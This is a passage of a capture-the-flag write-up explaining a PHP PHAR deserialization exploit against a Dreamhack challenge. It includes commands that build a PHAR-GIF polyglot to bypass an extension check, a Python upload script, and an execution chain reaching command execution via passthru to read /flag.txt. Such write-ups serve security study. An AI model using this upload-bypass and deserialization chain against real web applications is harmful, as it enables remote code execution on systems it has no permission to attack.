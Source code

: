 ### Step 2: Generate PHAR Polyglot

```bash
# Generate PHAR file
php -d phar.readonly=0 payload_gen.php

# Rename to bypass extension check
mv payload.phar payload.gif
```

**Result**: A file that appears as GIF but contains PHAR structure with malicious metadata.

### Step 3: Upload and Trigger

**exploit.py:**

```python
import requests

url = 'http://host3.dreamhack.games:16442'

# POST data to trigger PHAR processing
data = {
    'submit': 1,
    'emergent': 1,  # Adds phar:// wrapper
}

# Upload malicious PHAR-GIF polyglot
with open('payload.gif', 'rb') as f:
    r = requests.post(url, files={'fileToUpload': f}, data=data)

print(r.text)
```

### Step 4: Execution Flow

1. **Upload**: `payload.gif` uploaded to `uploads/` directory
2. **PHAR Wrapper**: `emergent=1` makes `$targetFile = 'phar://uploads/random.gif'`
3. **Deserialization**: `file_exists()` processes PHAR metadata
4. **Object Creation**: `Supermarket` object instantiated from metadata
5. **Destruction**: Object goes out of scope, `__destruct()` called
6. **RCE**: `call_user_func("passthru", "cat /flag.txt")` executes

---

## Technical Deep Dive

### PHAR vs Traditional Deserialization

| Aspect | PHAR Deserialization | `unserialize()` |
|--------|---------------------|-----------------|
| **Trigger** | File operations with `phar://` | Direct function call |
| **Detection** | Often overlooked in code review | Obvious vulnerability point |
| **Magic Methods** | Primarily `__destruct()`, `__wakeup()` | All magic methods available |
| **Bypass Potential** | High (disguised as other file types) | Medium (input filtering) |
